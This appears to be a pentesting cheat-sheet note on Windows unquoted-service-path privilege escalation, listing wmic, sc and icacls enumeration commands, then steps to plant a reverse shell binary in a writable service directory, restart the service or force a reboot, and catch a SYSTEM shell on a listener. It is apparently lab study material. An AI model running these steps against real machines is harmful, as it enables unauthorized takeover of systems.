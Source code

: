 # Service Exploits - Unquoted Service Path

List services

	wmic service get Pathname
	
Listing running services

	wmic service get name,displayname,pathname,startmode
	
Listing services that are auto started

	wmic service get name,displayname,pathname,startmode| findstr /i "auto"
	
Listing running non-standard services 

*Check the output for paths do NOT have quotes*

	wmic service get name,displayname,pathname,startmode | findstr /i /v "c:\windows"
	
Find services with unquotes path

Look for two things in the output for the following command

	sc qc <service-name>

1. (SERVICE_START_NAME) To make sure the service runs in SYSTEM privilege 
2. the BINARY_PATH_NAME is unquoted

Notice the example path 

	C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
	
If the directory `C:\Program Files\Unquoted Path Service\` is writtable, we can place the reverse shell binary there.


Checking permissions to write in the directory

	icacls "C:\Program Files"
	icacls "C:\Program Files\Unquoted Path Service"
	
You need to find either (W) or (F) next to users
![](5.png)
	
The reverse shell binary can be placed as the following

	copy "C:\PrivEsc\reverse.exe" "C:\Program Files\Unquoted Path Service\Common.exe"
	
Explanation:
	since the path is unquote, Windows does not process the spaces properly. Instead, it looks for the following:
	
		`C:\Program.exe`
		`C:\Program Files\Unquoted.exe`
		`C:\Program Files\Unquoted Path Service\Common.exe`
	
*Note: Make sure the two reverse shells are not the same. Two different listeners with two different port numbers*

Restart the service
	
	`net start <Service-Name>`
		
If unable to start the service try rebooting

	shutdown /r /t 0


If wmic was not found, try

	"C:\Windows\SysWOW64\wbem\WMIC.exe" service get Pathname


